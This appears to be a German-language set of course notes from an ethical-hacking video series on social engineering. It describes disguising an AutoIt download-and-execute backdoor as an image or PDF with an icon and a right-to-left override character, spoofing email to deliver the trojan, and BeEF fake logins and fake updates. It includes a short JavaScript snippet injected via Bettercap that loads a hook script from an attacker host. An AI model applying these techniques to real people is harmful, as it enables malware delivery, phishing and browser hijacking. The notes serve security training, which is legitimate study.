


# Social Engineering


## Maltego

Maltego – Information Gathering Tool

Freie Version hat eingeschränkten Funktionsumfang.




## AutoIt Backdoor

Video 83

Backdoor mit beliebigem File kombinieren (Bild, PDF, ...)

`autoit-download-and-execute.txt` ist ein AutoIt Skript. 

Video 84 – AutoIt nicht Standard Kali, wird aber mit veil mitinstalliert. 

AutoIt Compiler :arrow_right: EXE File (+Icon)

Icon kann angegeben werden (z.B.: www.iconarchive.com). Wollen aber Preview des Images (in Icon umwandeln). Image to Ico googeln. 




**Video 85** – Problem: es ist immer noch ein exe File. 

right to left override character (Unicode U+202D)

```sh
$ sudo apt install gnome-characters
```


## Email Spoofing

**Video 86** – Spoofing Emails - Setting Up an SMTP Server

Die Frage ist wie bekommt man den Trojaner auf das Ziel. Erste Möglichkeit durch eine Fake Email.

Freie WebSites gibt es, aber diese sind nicht geeignet da blacklistet wil viel Spam davon gesendet wird.

[SMTP Server](https://www.sendinblue.com/)

Video 87

sendmail verwenden:


Video 88

Wenn ein webhosting zur Verfügung steht. (Frei stellen kein Email senden zur Verfügung)

Senden der Email mit PHP.


## BeEF Framework

Video 89 – Intro

Video 90 mittels Bettercap

`inject_beef.js` (YourIP ersetzen!):

```javascript
var imported = document.createElement('script');
imported.src = 'http://YourIP:3000/hook.js';
document.head.appendChild(imported);
```

Verwendet hstshijack

Video 91 – BeFF Commands

Video 92 – Fake Login

Video 93 – Fake update (backdoor)


## Detecting Trojans

Video 94 – Manuell

- div.
- Resource Monitor

Video 95 – Sandbox (hybrid-analysis.com)
